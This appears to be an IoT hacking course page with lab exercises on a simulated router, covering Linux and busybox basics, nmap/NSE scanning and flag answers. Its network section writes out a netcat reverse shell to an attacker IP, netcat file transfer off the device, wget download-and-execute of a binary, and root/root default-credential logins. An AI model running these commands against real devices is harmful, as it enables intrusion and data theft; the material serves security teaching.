


# Basic Concepts for IoT Hacking

This content provides an introduction to prerequisite knowledge required in the [IoT Hacking Roadmap](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/iot-hardware-hacking/iot-hacking-roadmap) course.

## **1.** Linux Fundamentals

**Purpose**: To introduce the Linux operating system used widely in IoT/embedded systems



**Setup Linux virtual machine (VM) on VirtualBox**:

Refer to [guide ](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/virtual-machines/virtualbox/installing-ubuntu)for the steps to install Ubuntu 26.04 on VirtualBox


**Topic overview**:

You will be provided with a simulated Linux router environment. More information in the **Lab exercise setup** section below


1. Linux filesystem

* Common naming shortcuts: `~`, `/`
* Folders: `etc`, `tmp`, `bin`, `sbin`
* Files: `/etc/preInit` , `/etc/init`, `/etc/rc`
* File permissions


2. Getting comfortable with the command-line (terminal) + other concepts

* Basic commands: `ls`, `cat`, `netstat`, etc.
* Processes:  `ps`, `kill`, `killall`


3. Introducing **busybox**

* Called the "swiss army knife of embedded Linux"
* Commands that comes with it: `pgrep`, `nc`&#x20;


**Lab exercise setup**

Practice your skills on a simulated Linux router environment. Download this file and run it from the default downloads (`~/Downloads`) directory:




```shellscript
# 1. Navigate to directory where the file is stored
$ cd ~/Downloads

# 2. Run the file
$ ./linux-router-lab.run
# or
$ sh linux-router-lab.run
```



**Lab exercise questions**

1. What is the utility that provides a range of Linux command-line tools that may be missing on a standard IoT device, all packaged into a single binary executable file. People also call it the "swiss army knife of embedded Linux"&#x20;

<details>

<summary>Try it out yourself first!</summary>

**busybox** -> [https://busybox.net/downloads/binaries/](https://busybox.net/downloads/binaries/). Common architecture types for IoT devices are **ARM** and **MIPS**.

</details>

2. What is the content of flag.txt in the home directory (`~`)?

<details>

<summary>Try it out yourself first!</summary>

**linux-FUNdamentals**


```sh
/# cat ~/flag.txt
```


</details>

3. What is the process ID (PID) of the httpd process?

<details>

<summary>Try it out yourself first!</summary>

We can use the `ps` command (with optional "w" option), or the `pgrep` command that comes with `busybox`

> Note that the PID will change across each new lab instance


```sh
/# ps w
/# ps w | grep httpd
/# busybox pgrep httpd
```


</details>

4. What is the value of the "flag" nvram field?

<details>

<summary>Try it out yourself first!</summary>

**subscribe**

We can use the `nvram` command for this. You will not find this command on other Linux systems aside from IoT/embedded ones.


```shellscript
/# nvram show | grep flag
/# nvram get flag
```


</details>

## **2. Network Security Basics**

**Purpose**: To introduce essential computer networking security concepts that will be encountered in both IoT hacking, and everyday cybersecurity research



**Tools covered in the video:**

* Nmap, Netcat, Wget, cURL

**Lab exercise setup**

Practice your skills on a simulated Linux router environment. Download this file and run it from the default downloads (`~/Downloads`) directory:




```shellscript
# 1. Navigate to directory where the file is stored
$ cd ~/Downloads

# 2. Run the file
$ ./network-basics-router-lab.run
# or
$ sh network-basics-router-lab.run

# If you encounter permissions error
$ chmod +x network-basics-router-lab.run
```


<figure><figcaption></figcaption></figure>

> Note that the 'Target' and 'Host' IP address values may be different on your machine


**Content:**

1. Common network services

* **HTTP**
* **SSH**
* **Telnet**
* **Universal Plug and Play (UPnP)**
  * [https://jumpcloud.com/blog/what-is-upnp](https://jumpcloud.com/blog/what-is-upnp)
* **Simple Network Management Protocol (SNMP)**
  * [https://www.huntress.com/cybersecurity-101/topic/snmp-networking](https://www.huntress.com/cybersecurity-101/topic/snmp-networking)


2. Nmap and Nmap Scripting Engine (NSE)

* How to use Nmap to discover exposed network services
* How to use the Nmap Scripting Engine (NSE) to perform reconnaissance or discover known vulnerabilities on IoT devices. Refer to the [full list](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/iot-hardware-hacking/nmap-scripting-engine-nse)

> Refer to the Nmap scan [case study](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/iot-hardware-hacking/nmap-scripting-engine-nse/case-study-1-linksys-e1200-router) on the physical Linksys E1200 router

```sh
$ nmap -p [PORT] --script [SCRIPT-NAME] <target-IP>

# NSE example
$ nmap -p [PORT] --script broadcast-upnp-info <target-IP>
```

NSE scripts example:&#x20;

* `broadcast-upnp-info` (**UDP/1900**)
* `upnp-info` (**UDP/1900**)
* `snmp-interfaces` (**UDP/161**)

> Add the `-v` option to enable verbose mode (output more information)

**Enumerate the open ports/services**

```bash
# Discover open UDP ports (most common ones)
$ sudo nmap <target-IP> -sU --top-ports 20
$ sudo nmap <target-IP> -sU -T4 --max-retries 1 #  "--max-retries 2" may be more reliable
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```bash
# Alternatively, scan specific UDP ports for known services
$ nmap <target-IP> -sU -p1900 # upnp
$ nmap <target-IP> -sU -p161 # snmp
```


**Perform NSE script scan on each service**

```shellscript
# NSE upnp-info (UDP/1900) 
$ sudo nmap -v <target-IP> --script upnp-info -sU -p1900
```

> **broadcast-upnp-info** does not target a specific port, but rather scans the entire LAN for devices running UPnP on UDP/1900

<figure><figcaption></figcaption></figure>

The output provides us with the UPnP XML file at: **http://172.28.0.2:5000/rootDesc.xml**. This file provides us with more information about the device

<figure><figcaption></figcaption></figure>

```shellscript
# NSE broadcast-upnp-info
$ sudo nmap -v <target-IP> --script broadcast-upnp-info 
```

<figure><figcaption></figcaption></figure>

This script automatically attempts to parse the information from the provided XML file (rootDesc.xml). This file provides us with a bunch of useful information (given by UPnP) such as the device name, manufacturer, model, version, etc.

> This script may not work as expected depending on how your Docker environment is setup. Also, the IP address will vary according to your target device

```bash
# NSE snmp-interfaces (UDP/161) 
$ sudo nmap -v <target-IP> --script snmp-interfaces -sU -p161
```

<figure><figcaption></figcaption></figure>

Reads network configuration data from the target device. The output shows us the network interfaces present on the device


3. HyperText Transfer Protocol (HTTP)

* Learn about the network protocol used by web servers
* How to use the `curl` and `wget` tools to send HTTP requests


**3.1 Transfer `busybox-mipsel` from host to device**



> You can also download directly from source: [https://busybox.net/downloads/binaries/1.21.1/busybox-mipsel](https://busybox.net/downloads/binaries/1.21.1/busybox-mipsel)

Host a web server (eg. with Python3) on the host machine:

```shellscript
$ python3 -m http.server 8888 # or any other port of choice
```

Use Wget on the target device to retrieve the `busybox-mipsel` binary:


```console
# wget http://<HOST-IP>:8888/busybox-mipsel -O /tmp/busybox
# chmod +x /tmp/busybox 
# /tmp/busybox
```


<figure><figcaption></figcaption></figure>

> The `/tmp` directory will usually be used on an actual device to store the temporary binary. The `/root` directory works too (if you are root)

**3.2 Transfer files from device to host**


```console
# /tmp/busybox nc HOST-IP 8888 < FILE-TO-TRANSFER
```


```shellscript
$  nc -lp 8888 > OUTPUT-FILE
```


4. Telnet and SSH

Provides a direct shell on the device. Commonly exploited by hackers if exposed with weak/hardcoded/default credentials:


```shellscript
# Telnet
$ telnet <TARGET-IP>
Username: root
Password: root # note that this will not show when being typed 

# SSH
$ ssh root@<TAREGET-IP>
Password: root # note that this will not show when being typed 
```



5. Reverse shell techniques (Netcat and Telnet interactive loop)

**5.1 Reverse shell with Netcat**

```shellscript
# Host (attacker) machine
$ nc -lvp 8888
```

> Access Netcat from the Busybox tool


```console
# /tmp/busybox nc <ATTACKER-IP> 8888 -e /bin/sh
```


**5.2 Reverse shelll with Telnet interactive loop method**



```shellscript
# Run against the lab target
$ python3 exploit.py <HOST-IP> <TARGET-IP> 80
```


## **3. `iotsec.tools` framework (WORKING ON IT!)**

`iotsec.tools` is a security research framework to ease the workflow of IoT pentesting&#x20;

> Pending development ...



It will include multiple wrapper around popular tools for IoT security research workflows:

* Firmware-related research (firmware reverse engineering, analysis, emulation)
* Binary-related research (binary reverse engineering, analysis, emulation/debugger and exploit development)
* OSINT research (Google dork, FCC - covered in the later chapters)
* Automated network services enumeration (nmap scripts)

**Other features:**

1. LLM chatbot that can help with explaining usage of the tool, summarizing outputs, or for general queries
2. Access to a repository of firmware files for IoT research
3. Integration with `learn.iotsec.tools` learning platform&#x20;

* Access to dashboard (skills, progress, report)
  * Access to custom lab challenges files and flag submissions

